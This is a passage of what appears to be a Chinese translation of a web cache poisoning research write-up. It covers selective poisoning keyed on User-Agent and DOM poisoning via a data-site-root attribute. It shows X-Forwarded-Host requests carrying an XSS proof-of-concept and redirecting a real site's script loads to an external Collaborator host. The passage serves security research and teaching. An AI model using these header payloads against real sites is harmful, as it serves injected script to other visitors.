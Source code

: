 
#### Selective Poisoning
“Vary” ：赋予的值代表缓存键.
```code
GET / HTTP/1.1  
Host: redacted.com  
User-Agent: Mozilla/5.0 … Firefox/60.0  
X-Forwarded-Host: a"><iframe onload=alert(1)>  
  
HTTP/1.1 200 OK  
X-Served-By: cache-lhr6335-LHR  
Vary: User-Agent, Accept-Encoding  
…  
<link rel="canonical" href="https://a">a<iframe onload=alert(1)>  
</iframe>
```
Vary头告诉我们，我们的User-Agent可能是该高速缓存键的一部分，手动测试证实了这一点。这意味着，由于我们声称使用Firefox 60，我们的漏洞将只提供给其他Firefox 60用户。~~我们可以使用流行的用户代理列表来确保大多数访问者收到我们的漏洞，但这种行为给了我们更多选择性攻击的选择。如果你知道他们的用户代理，你就有可能针对特定的人进行攻击，甚至可以隐藏自己的网站监控团队。~~

#### DOM Poisoning
利用未加密的输入并不总是像写入XSS Payload一样容易。如以下请求：

```
GET /dataset HTTP/1.1
Host: catalog.data.gov
X-Forwarded-Host: canary

HTTP/1.1 200 OK
Age: 32707
X-Cache: Hit from cloudfront 
…
<body data-site-root="https://canary/">
```

我们已经控制了'data-site-root'属性，但我们不能突破以使用XSS，并且不清楚这个属性甚至用于什么。为了找到答案，我在Burp中创建了一个匹配并替换的规则，为所有请求添加了“X-Forwarded-Host：id.burpcollaborator.net”协议头，然后浏览了该站点。当加载某些页面时，Firefox会将JavaScript生成的请求发送到我的服务器：

```
GET /api/i18n/en HTTP/1.1
Host: id.burpcollaborator.net
```

该路径表明，在网站的某个地方，有一些JavaScript代码使用data-site-root属性来决定从哪里加载一些国际数据。我试图通过获取[https://catalog.data.gov/api/i18n/en](https://catalog.data.gov/api/i18n/en) 来找出这些数据应该是什么样的，但只是收到了一个空的JSON响应。幸运的是，将'en'改为'es'拿到了一个线索：

```
GET /api/i18n/es HTTP/1.1
Host: catalog.data.gov

HTTP/1.1 200 OK
…
{"Show more":"Mostrar más"}
```
